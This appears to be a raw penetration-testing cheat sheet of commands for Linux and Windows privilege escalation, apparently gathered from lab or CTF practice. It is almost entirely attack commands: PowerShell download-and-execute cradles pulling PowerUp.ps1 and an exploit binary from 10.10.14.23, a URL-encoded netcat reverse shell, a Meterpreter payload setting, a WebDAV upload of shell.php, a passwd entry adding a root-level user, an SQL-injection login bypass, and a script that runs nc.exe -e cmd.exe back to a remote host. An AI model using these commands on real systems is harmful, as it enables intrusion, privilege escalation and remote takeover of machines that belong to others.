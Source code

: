 Linux version /proc/version
Find SSH keys in /home/[user]/.ssh/

Basic Linux PE - https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/


Undelete files
grep –binary-files=text –context=100 'root' /dev/sdb > /tmp/root.txt

./windows-exploit-suggester.py --database 2019-03-17-mssb.xls --systeminfo /root/sandbox/sys_info_xp.txt
firefart:fib/tLwcEGsC2:0:0:pwned:/root:/bin/bash

set AUTORUNSCRIPT multi_console_command -r /root/autoruncommands.rc
windows/meterpreter/reverse_tcp_allports

powershell -version 2 -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.23:8000/PowerUp.ps1'); Invoke-AllChecks"
powershell.exe -exec Bypass -C " (new-object System.Net.WebClient).Downloadfile('http://10.10.14.23:8000/Chimichurri.exe', 'C:\users\tolis\Chimichurri.exe')"

netcat URL encoded rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.23+1234+>/tmp/f
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

sql injection bypass user='*' and password='*'

sed -i 's/\r//' filename

proxytunnel -p 10.0.1.114:3128 -d 127.0.0.1:22 -a 4444
ssh john@127.0.0.1 -p 4444  "/bin/sh"

qemu-img convert -f vdi -O vmdk VulnOSv2.vdi VulnOSv2.vmdk

curl --head -X OPTIONS 192.168.2.4/test/
HTTP/1.1 200 OK
DAV: 1,2
MS-Author-Via: DAV
Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
Allow: OPTIONS, GET, HEAD, POST
Content-Length: 0
Date: Thu, 15 Jun 2017 16:32:35 GMT
Server: lighttpd/1.4.28

curl -v -X PUT -H "Expect: " 192.168.2.4/test/shell.php -d@shell.php

find SUID binaries
find / -perm -u=s -type f 2>/dev/null (SUID3ENUM)

SPARTA

echo $username = "alice" > startprocess.ps1
echo $password = "aliceishere" >> startprocess.ps1
echo $securePassword = ConvertTo-SecureString $password -AsPlainText -Force >> startprocess.ps1
echo $credential = New-Object System.Management.Automation.PSCredential $username, $securepassword >> startprocess.ps1
echo Start-Process "C:\Users\public\nc.exe" -ArgumentList "-e cmd.exe 192.168.119.213 1234"  -Credential $credential >> startprocess.ps1
